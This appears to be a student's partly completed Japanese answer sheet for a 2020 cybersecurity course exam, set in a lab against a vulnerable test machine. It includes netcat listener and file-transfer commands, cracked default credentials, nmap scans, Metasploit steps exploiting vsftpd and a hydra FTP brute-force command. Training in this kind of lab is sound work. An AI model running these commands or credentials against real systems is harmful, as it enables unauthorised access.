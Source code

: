 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# ここに回答を記述
nc -lvp 5555
```
#### クライアント側コマンド

```sh
# ここに回答を記述
nc 192.168.33.15(serverIP) 5555
```
### 1.
#### サーバー側コマンド

```sh
# ここに回答を記述
nc -l 5555 < (filename)
```
#### クライアント側コマンド

```sh
# ここに回答を記述
nc 192.168.33.15(serverIP) 5555 > (filename)
```

## 問2 [Password Crack]

### 1.
```md
<!--  ここに回答を記述 -->
root:toor
sys:batman
klog:123456789
msfadmin:msfadmin
postgres:postgres
user:user
service:service
vagrant:vagrant
```

### 2.
```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap -sL 192.168.30.0-127
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV 192.168.33.11(metaIP)
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole
search platform:unix vsftpd
use 0
show options
set RHOST 192.168.33.11
run
```

## 問5 [Online Password Cracker]


### 1. コマンド
hydra -L user.list -P passwd.list -t 8 192.168.33.11 ftp
```sh
# ここに回答を記述

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
http && ip.addr == 192.168.33.11(metaIP)
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
20
```

## 問9 [講義の感想]

1.

```md
<!--  ここに回答を記述 -->
- ハッカーになるための知識
- ハッカーになるための心構え
- 自分たちがまだまだスタートラインにも立っていないこと
```

2.
```md
<!--  ここに回答を記述 -->
自分では分かったつもりになっていても、いざ問題で解いてみるとできないことが遥かに多い。普段の授業の内容をどれだけ理解しているか、授業以外でどれだけ触れているか、復習しているか、努力しているかが圧倒的にできていなかった。
自分で調べて分からないことは先生が解説してくれるまで待っている自分がいたと感じた。
同じ授業はもう無いが、これからの授業をどれだけ充実させれるか、どれだけ真剣に取り組めるか、もう一度見直して頑張っていきたい。
```
